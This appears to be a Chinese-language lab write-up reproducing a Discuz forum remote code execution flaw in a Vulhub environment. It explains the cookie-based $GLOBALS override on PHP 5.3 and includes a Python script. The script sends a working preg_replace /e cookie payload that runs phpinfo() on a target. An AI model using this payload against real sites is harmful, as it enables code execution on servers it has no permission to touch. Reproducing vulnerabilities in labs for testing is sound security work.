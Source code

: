 ### 目录 ###
- - -
- 漏洞介绍
- 复现

### 漏洞介绍 ###
- - -
由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致$_REQUEST中不再包含$_COOKIE，我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

https://www.secpulse.com/archives/2338.html

### 复现 ###
- - -
首先下载好Vulhub进入Dz的那个文件夹，然后执行
```
docker-compose up -d
```
搭建成功后见到如下：
![k0WsuF.png](https://s2.ax1x.com/2019/02/13/k0WsuF.png)

对DZ论坛进行安装：
![k0WgE9.md.png](https://s2.ax1x.com/2019/02/13/k0WgE9.md.png)


安装完成后随便找一个有帖子的url
发送如下请求：
![k0Wf9x.png](https://s2.ax1x.com/2019/02/13/k0Wf9x.png)

![k0W4gK.png](https://s2.ax1x.com/2019/02/13/k0W4gK.png)


py检测脚本：
```python
#author:九世
#time:2019/2/13

import requests

def yuanc(urls):
    try:
        headers={'user-agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0'}
        cookies = {}
        cookie = 'GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui,GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();'
        for r in cookie.split(','):
            key, value = r.split('=', 1)
            cookies[key] = value
        rqt=requests.get(url=urls,headers=headers,cookies=cookies)
        if 'PHP Version' in rqt.text:
            print('[x] 发现DZ远程代码执行漏洞')
            print('[X] 关键字：PHP Version')
            return 1
        return 0
    except Exception as r:
        print('[-] 错误：{}'.format(r))
```
![](https://s2.ax1x.com/2019/02/13/k0WouD.png)